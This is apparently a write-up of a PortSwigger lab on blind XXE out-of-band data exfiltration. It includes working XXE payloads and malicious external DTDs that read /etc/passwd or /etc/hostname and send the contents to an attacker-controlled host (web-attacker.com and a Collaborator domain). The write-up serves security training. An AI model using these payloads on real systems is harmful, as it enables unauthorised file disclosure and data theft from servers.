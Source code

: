 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/7ac3d0f2-66e3-4016-b19b-ed3298d5a8ae)

## Overview :

It involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the /etc/passwd file is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

This DTD carries out the following steps:

- Defines an XML parameter entity called file, containing the contents of the /etc/passwd file.
- Defines an XML parameter entity called eval, containing a dynamic declaration of another XML parameter entity called exfiltrate. The exfiltrate entity will be evaluated by making an HTTP request
to the attacker's web server containing the value of the file entity within the URL query string.
- Uses the eval entity, which causes the dynamic declaration of the exfiltrate entity to be performed.
- Uses the exfiltrate entity, so that its value is evaluated by requesting the specified URL.

The attacker must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL:

```xml
http://web-attacker.com/malicious.dtd
```

Finally, the attacker must submit the following XXE payload to the vulnerable application:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

This XXE payload declares an XML parameter entity called xxe and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attacker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the /etc/passwd file is transmitted to the attacker's server. 

> In some cases, when performing a blind XXE (XML External Entity) attack to retrieve data from the /etc/passwd file, **only a single line of the file may be 
  obtained in the response**. 
>
> The limited response that you observe could occur due to the way the application processes the XML and constructs the response. It might be **designed to 
  include only a single line of the file**, truncating the content to prevent the disclosure of sensitive information.

For this we can use an FTP server to get all the contents of the file .
> **FTP sever tool - https://github.com/lc/230-OOB**

## Solution :

Clicking on checkstock feature , browser sends the following request.

```xml
POST /product/stock HTTP/2
Host: 0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Cookie: session=2K3jJ6C0GNurtpvuyrqmYZYeIU1ITlX1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net/product?productId=2
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5c0075035d3461824ebb3700d50033.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

<?xml version="1.0" encoding="UTF-8"?>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

In order to solve the lab, we need to make the application to fetch our malicious DTD file with the payload to  retreive `/etc/hostname` & then send the exfiltrated data back to our server.

#### Steps -

1. The application parses the XML entitiy & tries to fetch the malicious DTD hosted at exploit server
2. Payload of exploit server gets executed. Means the application retreives the `/etc/hostname` of the vulnerable server.
3. THe vulnerable server now sends the exfiltrated data back to our collaborator server.

#### Craft the payload

In the request to check the stock, we can  insert the following external entity definition in between the XML declaration and the stockCheck element: 

```xml

<?xml version="1.0" encoding="UTF-8"?>
 <!DOCTYPE example [<!ENTITY % xxe SYSTEM "http://exploit-0a1800a6032c20998658e88b0120001e.exploit-server.net/exploit"> %xxe;]>
 <stockCheck>
  <productId>2</productId>
  <storeId>1</storeId>
</stockCheck>
```

#### Create a malicious DTD -

On the exploit server create a malicious DTD file with the following contents,

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % ent "<!ENTITY &#x25; exfiltrate SYSTEM 'http://ytv10aart4un8pz41up9szpvvm1dp2.oastify.com/?%file;'>">
%ent;
%exfiltrate;
```
Host this `malicious.dtd` file in our exploit server.

> NOTE- We need to send the exfiltrated data (**/etc/hostname**) back to our collaborator server. So provide colab server's address.

When we send the request, we get a response stating that - `XML parsing error`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/598b1687-ab63-4964-a5b3-2c4edee76c3e)

But if we check our collaborator server, we can see that few HTTP & DNS requests were made. The HTTP request made to our server contains the output of our payload in the GET request header .

`/etc/hostname` - `6837f702d700`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/19dc61a2-651c-4030-a810-80b0b608af0b)

Submit the hostname to solve the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/c4f4f951-6cf9-445c-8ea3-772ac924e75b)

